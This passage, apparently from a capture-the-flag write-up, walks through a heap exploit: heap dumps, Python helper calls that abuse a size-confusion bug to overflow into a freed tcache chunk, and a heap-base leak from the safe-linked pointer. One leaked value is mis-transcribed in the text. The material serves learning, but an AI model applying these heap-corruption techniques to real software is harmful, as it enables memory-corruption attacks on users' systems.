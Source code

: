 heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000005	0x4242424242424242 
0x5565109c02b0:	0x0000000000000000	0x0000000000000021 <- B
0x5565109c02c0:	0x000000000000000b	0x4646464646464646
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000020ce1

```

then we delete chunk B to get it into tcache and put a pointer in it's fd field, we edit A with the size of C (using the confusion vulnerability) and overflow up to the pointer so when we now view Br, we will get a leak. 

```python

delete(padd(b'\x0b'))

edit(padd(b'\x05'),padd(b'\x01\x00\x05'),'X'*24)
view_(padd(b'\x06')) # it's still the same chunk just index gets incremented because hash(b'\x01\x00\x05') = new_index = 6
```


heap layout :


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00000005565109c0	0x7c13d35e6a1c315a
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000020ce1

```

we can see that when we view B, what will get printed out is 24 * 'X' + an extra pointer

```
0x5565109c02c0:	0x00000005565109c0 
```

if we shift 0x556510c0 by 12 to the left we get 0x5565109c0000 which is the heap base (we will discuss why the shift in due time)

with this we got the heap leak so now we need the libc leak...
